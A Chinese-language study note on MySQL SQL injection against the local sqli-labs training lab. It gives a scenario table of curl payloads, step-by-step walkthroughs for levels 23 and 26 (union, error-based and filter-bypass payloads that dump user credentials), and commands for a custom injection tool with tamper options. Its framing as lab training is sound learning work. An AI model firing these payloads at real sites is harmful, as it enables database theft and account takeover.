

# 09-综合训练

> 前置基础：[[../01-整数型注入|整数型注入]] · [[../03-报错注入|报错注入]] · [[../04-布尔盲注|布尔盲注]] · [[../05-时间盲注|时间盲注]]
>
> 总目录：[[../SQL总目录|SQL 总目录]] · 本目录 [[mysql结构总目录|mysql结构 总目录]]
>
> 工具箱：`~/hackingtools/web/injection/sqlinject`（GitHub: [missercatos/tools](https://github.com/missercatos/tools)，本地位于仓库外 `/home/a/hackingtools`）
>
> 本章定位：**决策手册而非新知识**。不引入新手法，只解决"拿到注入点后先做什么、走哪条路"的选择问题。

## 一、拿到注入点的完整决策树



树的读法：**从上到下先定位置，再定回显，最后看过滤**。位置决定可用语句形态（能否 union、有无结果集），回显决定载体（union / 报错 / 盲注），过滤只影响 payload 的"拼写"而不改变信息路径。

### 五步方法论与三种回显的对应

无论走哪个分支，信息收集路径恒定不变：

| 步骤 | union 载体 | 报错载体 | 盲注载体 |
|------|-----------|---------|---------|
| 确认注入 | 引号闭合恒真 | 报错探针 | 真假对照 |
| 探测列数 | order by N 二分 | 不需要 | 不需要 |
| 爆库 | 回显位放 database() | concat(0x7e,database()) | ascii(substr(database(),1,1)) |
| 爆表 | information_schema.tables | 同左套子查询 | 同左逐位猜解 |
| 爆列取数 | 回显位放 group_concat | substr 分段 | 二分脚本 |

## 二、14 种场景总表

覆盖本目录与上级目录全部章节，按"触发特征 -> 首选手法 -> 关键命令"组织：

| 序号 | 场景 | 触发特征 | 首选手法 | 关键 curl 片段 |
|------|------|---------|---------|---------------|
| 1 | 整数型注入 | `?id=1 and 1=2` 页面异常，无需引号 | union 五步 | `?id=-1 union select 1,database(),3` |
| 2 | 字符型注入 | 加 `'` 报错，`' and '1'='1` 恒真 | union 五步 | `?id=-1' union select 1,database(),3#` |
| 3 | 报错注入 | 错误信息直接打印在页面 | updatexml 32 字符分段 | `?id=1' and updatexml(1,concat(0x7e,database()),1)#` |
| 4 | 布尔盲注 | 无回显，页面真假两态 | ascii 二分猜解脚本 | `?id=1' and ascii(substr(database(),1,1))>96#` |
| 5 | 时间盲注 | 页面完全无差异 | sleep + %{time_total} | `?id=1' and if(substr(database(),1,1)='s',sleep(5),0)#` |
| 6 | Cookie 注入 | 参数经 Cookie 传入（less-20） | 同 union 五步换载体 | `curl -b "uname=-1' union select 1,database(),3#"` |
| 7 | UA 注入 | UA 进 insert 语句（less-18） | 报错（insert 无回显集） | `-H "User-Agent: ' or updatexml(1,concat(0x7e,user()),1) or '"` |
| 8 | Refer 注入 | Referer 进 insert（less-19） | 报错补全式 | `-H "Referer: ' or updatexml(1,concat(0x7e,database()),1) or '"` |
| 9 | base64 层 | Cookie 内容是 base64（less-21/22） | 先编码再注入 | `echo -n payload \| base64 -w0` 后放 Cookie |
| 10 | 二次注入 | 输入被转义存储，后续拼接触发（less-24） | 注册脏用户名 + UPDATE 改密 | 注册 `admin'#` 后走改密流程接管 |
| 11 | 过滤空格 | 空格被删或拦（less-26 等） | /**/ 或括号嵌套 | `?id=1'/**/union/**/select/**/1,database(),3#` |
| 12 | AND/OR 过滤 | and/or 被删（less-25） | 双写 anandd/oorr + 符号替代 | `?id=-1' uniunionon seleselectct 1,database(),3#` |
| 13 | ORDER BY 位 | sort 参数直进排序子句（less-46~49） | 报错优先，盲注退路 | `?sort=1 and updatexml(1,concat(0x7e,database()),1)` |
| 14 | UPDATE 位 | 改密/资料更新接口（less-17/24） | SET 补全式报错 + 万能改密 | `passwd=' or updatexml(1,concat(0x7e,database()),1) or '` |

使用方法：拿到目标先对号入座（1-5 按回显分类，6-10 按 位置 分类，11-12 按 过滤 分类，13-14 按 语句位 分类），再跳对应章节细读。

### 注入点位置的快速判断

决策树第一层"参数出现在哪"的实操判断方法：

| 线索 | 判断 | 验证命令 |
|------|------|---------|
| 参数在 URL query | GET WHERE 位 | `curl -s "?id=1'"` |
| 参数在表单体且页面有查询结果 | POST WHERE 位（登录/搜索） | `curl -d "uname=x'..."` |
| 页面回显 User-Agent / Referer / IP | Header 进 insert/update | `-H` 改头后看报错 |
| 登录态依赖 Cookie 且页面带昵称 | Cookie 位（可能 base64） | `-b` 改 Cookie 后看报错 |
| URL 带 sort/order/page 排序参数 | ORDER BY/LIMIT 位 | `?sort=1 union select 1` 报语法错即坐实 |
| 表单是注册/改密/资料更新 | INSERT/UPDATE 位 | 报错探针 + 观察数据变化 |

判断口诀：**先改一个值看页面哪里跟着变，再决定 payload 从哪个通道发**。通道选错（该走 -H 的走 -d）会让正确的 payload 打在无关参数上，浪费大量时间。

### sqli-labs 通关路线建议

| 分组 | 关卡 | 主打技术 |
|------|------|---------|
| 基础 GET | less-1~5 | 闭合判断 + union 回显 |
| 基础盲注 | less-5~10 | 布尔 / 时间 |
| POST 与 header | less-11~22 | 报错注入全姿势 |
| 存储与过滤初现 | less-23~26 | 二次注入 + 本章两个案例 |
| 黑名单专项 | less-25~30 | 双写 / 编码 / 替代视图 |
| 堆叠与宽字节 | less-32~38 | %bf%27 / 分号多语句 |
| 排序与变形 | less-46~65 | 场景查表补漏 |

节奏建议：1~10 打牢闭合与回显判断 → 11~22 收集报错姿势 → 25~30 专项练绕过 → 其余按上表查漏。

## 三、案例一：Less-23 过滤注释符全程实录

服务端把 `#` 和 `--`（含 `--+`）都替换为空：

```php
$id = preg_replace('/[#;]/', '', $_GET['id']);   // 注释符黑名单
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

难点：payload 无法用注释截断尾部引号。两条出路——**闭合法翻转**（让尾部引号成为合法语法的一部分）与**双重编码**。

### 第 1 步：确认过滤行为

```bash
# 单引号探测 → 报错确认字符型
curl -s "http://127.0.0.1/sqli-labs/Less-23/?id=1'"
# You have an error in your SQL syntax ... near ''1'' LIMIT 0,1'

# 验证注释符确实被吃：提交 id=1'# 若注释生效应正常返回，实际报错说明 # 被删后引号失衡
curl -s "http://127.0.0.1/sqli-labs/Less-23/?id=1'%23"
# 仍报语法错误 → # 被过滤坐实
```

### 第 2 步：闭合法翻转确认注入

核心思想：payload 自带一个引号去"配平"原语句尾部的引号。

```bash
# 恒真验证: 尾部 '1 与原句尾引号配对成字符串 '1'
curl -s "http://127.0.0.1/sqli-labs/Less-23/?id=-1'%20or%20'1'='1"
# 拼出: WHERE id='-1' or '1'='1'   → 恒真，回显第一行 → 注入确认
```

拼装过程示意：


### 第 3 步：探测列数（order by 用翻转法）

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-23/?id=1'%20or%20'1'='1"
# 先确认正常列数下页面正常；再用 union 差异报错法:
curl -s "http://127.0.0.1/sqli-labs/Less-23/?id=-1'%20union%20select%201,2,3%20or%20'1'='1"
# 正常回显 2:3 → 3 列成立（列数不符会报 columns 错误）
```

### 第 4 步：爆库爆表爆数据（union 尾部全部用翻转法收口）

```bash
# 爆库: 回显位放 database()，第 3 位放 '3 与尾引号配平
curl -s "http://127.0.0.1/sqli-labs/Less-23/?id=-1'%20union%20select%201,database(),'3"

# 爆表
curl -s "http://127.0.0.1/sqli-labs/Less-23/?id=-1'%20union%20select%201,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()),'3"

# 爆列
curl -s "http://127.0.0.1/sqli-labs/Less-23/?id=-1'%20union%20select%201,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_name='users'),'3"

# 提取数据拿 flag
curl -s "http://127.0.0.1/sqli-labs/Less-23/?id=-1'%20union%20select%201,(select%20group_concat(username,0x3a,password)%20from%20users),'3"
```

### 备选路线：双重编码绕过

若服务端过滤发生在 URL 解码之前（先查 `%23` 再解码），可双重编码让过滤器看不到注释符：

```bash
# %23 → 双重编码 %2523 ；-- - → --%20%2d
curl -s "http://127.0.0.1/sqli-labs/Less-23/?id=1'%2523"
# 服务端删除字面 "%23" 未命中，解码一次后得到 # → 注释生效
```

是否成立取决于 WAF 与应用层的解码顺序，一条请求即可验证；不成立时闭合法永远是保底解。案例复盘：**过滤注释符不等于封死注入，引号配平是最通用的结构性解法**。

## 四、案例二：Less-26 过滤空格 + AND/OR 组合全程实录

服务端同时干掉空格、`and`、`or`（含大小写）：

```php
$id = preg_replace('/\s+/','',$id);
$id = preg_replace('/or/i','',$id);
$id = preg_replace('/and/i','',$id);
// 另有 ' # -- 等视变体而定
```

组合拳配方：**/**/ 替代空格 + 双写还原关键字 + || 替代 or**。三样叠加后 payload 几乎面目全非，但还原到数据库里就是标准语句。

### 第 1 步：确认两组过滤

```bash
# 探测空格: id=1' union select 会因空格被删而变形报错，先看单引号
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'"
# 语法错误 → 字符型；注意报错里 near 后面的内容可见空格已被吃掉

# 验证 or 被删: 提交 oorr 还原后恒真
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'%7c%7c'1'='1"
# || 不含空格与 and/or，直接生效 → 回显第一行，注入确认
```

### 第 2 步：确定空格替代方案

Linux + Apache 下按优先级试：

```bash
# 方案 a: %a0（部分 apache 版本解码为不可断空格）
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'%a0%7c%7c'a"
# 方案 b: %0b 垂直制表符
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'%0b%7c%7c'a"
# 方案 c: /**/ 注释拆分（最通用，本章主线）
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'/**/%7c%7c/**/'a"
```

三者任一生效即可，以下统一用 /**/。

### 第 3 步：五步流程组合版

```bash
# 列数探测（union select 全部拆开写）
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=-1'/**/uniunionon/**/seleselectct/**/1,2,'3"

# 爆库
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=-1'/**/uniunionon/**/seleselectct/**/1,database(),'3"
# security

# 爆表: information_schema 含 or → infoorrmation_schema
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=-1'/**/uniunionon/**/seleselectct/**/1,group_concat(table_name),3/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema=database()"
# 注意 where 前后的空格也全部换成 /**/

# 爆列
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=-1'/**/uniunionon/**/seleselectct/**/1,group_concat(column_name),3/**/from/**/infoorrmation_schema.columns/**/where/**/table_name=0x7573657273"
# table_name='users' 的引号内无空格本可不处理，此处用十六进制 0x7573657273 更稳

# 提取数据: password 含 or → passwoorrd
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=-1'/**/uniunionon/**/seleselectct/**/1,group_concat(username,0x3a,passwoorrd),3/**/from/**/users"
# Dumb:Dumb,... 全量到手
```

### 无 union 回显时的报错替代

若该变体关卡关闭了 union 回显，换报错载体，同样全程 /**/ + 双写：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'/**/%26%26/**/updatexml(1,concat(0x7e,database()),1)/**/%26%26/**/'1'='1"
# && 编码 %26%26，XPATH error: '~security'
```

案例复盘：**多重过滤的解题顺序是"先分解再组合"**——单独验证每种过滤的边界，各自找到绕法后再拼接；一步到位写大 payload 出错时无法定位是哪层过滤没绕过。双写的适用边界（递归替换失效）、空格替代的全家福见 [[05-过滤空格|过滤空格]] 与 [[06-AND_OR注入|AND/OR 注入]]。

## 五、sqlinject.py 综合使用

手工确认过滤规则之后，交给工具自动化跑完五步流程。工具位于 `~/hackingtools/web/injection/sqlinject`，完整参数表见 `~/hackingtools/web/injection/sqlinject`（GitHub: [missercatos/tools](https://github.com/missercatos/tools)，本地位于仓库外 `/home/a/hackingtools`）。

### 基础用法

```bash
# 标准五步全自动（整数型 GET 位）
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"

# POST 位（less-11 类）
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-11/" \
  --data "uname=admin&passwd=admin" -p uname

# Cookie 位（less-20）
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-20/" \
  --cookie "uname=*"
```

### tamper 对照速查

| tamper | 作用 | 对应场景 |
|--------|------|---------|
| space2comment | 空格 → `/**/` | 案例二的空格层 |
| doublewrite | and/or/union/select 双写 | less-25 系列、案例二 |
| andornot | and/or → `&&` `\|\|` | 符号替代优先的场景 |
| randomcase | 大小写混淆 | 区分大小写的过滤 |
| charencode | URL 编码混淆 | WAF 解码层数不足 |
| between | 比较符改写 | `=` `>` 被拦 |

### 过滤场景的组合示例

```bash
# 案例二复刻: 空格 + and/or 双过滤 → space2comment,doublewrite 组合
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-26/?id=1" \
  --tamper space2comment,doublewrite

# 注释符过滤（案例一）→ 工具内置闭合法翻转策略
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-23/?id=1" \
  --no-comment

# 多重叠加: 空格 + and/or + 大小写敏感过滤三层齐发
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-26/?id=1" \
  --tamper space2comment,doublewrite,randomcase

# ORDER BY 位与 UPDATE 位自动识别（无 union 流程）
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-46/?sort=1"
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-17/" \
  --data "uname=admin&passwd=x" -p passwd --technique E
```

### 工具与手脑的关系

三条纪律：

1. **先 curl 手工确认过滤规则**，再挑 tamper——盲目堆 tamper 会让 payload 变形后整体失效，且无法定位失败原因
2. **工具跑通后回头读源码**，确认漏洞代码形态，形成"输入 -> 语句 -> 行为"的闭环认知
3. **UPDATE/写文件类场景先备份**，工具有真实写风险

手工 -> 工具 -> 源码审计，三遍下来才算真正掌握一个场景。

## 六、常见失败排查清单

payload 不生效时按顺序核对，绝大多数问题落在前四条：

| 症状 | 最可能原因 | 排查动作 |
|------|-----------|---------|
| 语法错误 near 原文 | 闭合方式判断错（引号数量/括号） | 数引号：报错信息里的语句片段就是拼装结果 |
| 页面无任何变化 | 参数没进 SQL 或走了缓存 | 加随机值参数、换 HTTP 方法重试 |
| 报错被吞但页面有真假差异 | 错误回显关闭 | 转布尔盲注路线 |
| union 列数怎么都不对 | 回显位与列数不匹配 / 有过滤吃字符 | 先 order by N 定死列数再检查 payload 长度 |
| 关键字消失 | 黑名单删除型过滤 | 对比提交串与报错回显中的残留，找出被删的词 |
| 全部请求都超时 | sleep 打在多行位置或网络问题 | 降 sleep 秒数，换假条件对照 |
| 工具跑不出结果 | tamper 选错或目标需要 cookie | 手工 curl 校准后再交给工具 |

## 七、自建靶场速查

```bash
# sqli-labs docker 一键
docker run -d -p 8080:80 --name sqli-labs acgpiano/sqli-labs
# 访问 http://127.0.0.1:8080 先点 setup 初始化

# 练 UPDATE 全表更新类 payload 前先备份，玩坏随时还原
mysqldump -uroot -p --databases security > security_backup.sql
mysql -uroot -p < security_backup.sql
```

## 八、自测清单

能独立回答以下问题，说明本目录已通关：

1. 整数型与字符型的闭合判断各用什么命令？加引号对照法的完整流程？
2. 报错注入为什么只能带 32 字符？分段提取的 substr 参数怎么推？
3. 布尔盲注与时间盲注的适用边界分别是什么？二分脚本的核心判断逻辑？
4. ORDER BY 位为什么不能 union？三条替代路线的速度排序？
5. UPDATE 位 SET 与 WHERE 两种注入位置的截断自由度差异？
6. 双写绕过的适用前提是什么？哪些标识符会被 and/or 过滤连带误伤？
7. 注释符被过滤时的保底解法是什么（闭合法翻转的引号配平原理）？
8. 空格过滤的至少四种替代写法？

答不上来的回到对应章节重打一遍靶。

## 九、要点回顾

| 要点 | 一句话 |
|------|--------|
| 三步法不变 | 闭合 -> 构造 -> 提数据，任何场景先找闭合方式 |
| 先定位置再选武器 | WHERE/Header/ORDER BY/UPDATE 四类位置的可用语句形态完全不同 |
| 回显决定载体 | 回显位 union、报错窗 updatexml、布尔差 if、全无则 sleep |
| 信息路径恒定 | database -> tables -> columns -> data，载体怎么换都不变 |
| 黑名单必有缝隙 | 双写、编码、符号、闭合法、替代视图，过滤只是增加成本 |
| 转义不是净化 | 宽字节与二次注入都源于此 |
| 参数化是终点 | 所有防御殊途同归：prepared statement + 白名单 + 最小权限 |

---
**返回** [[../SQL总目录|SQL 总目录]] · [[mysql结构总目录|mysql结构 总目录]]
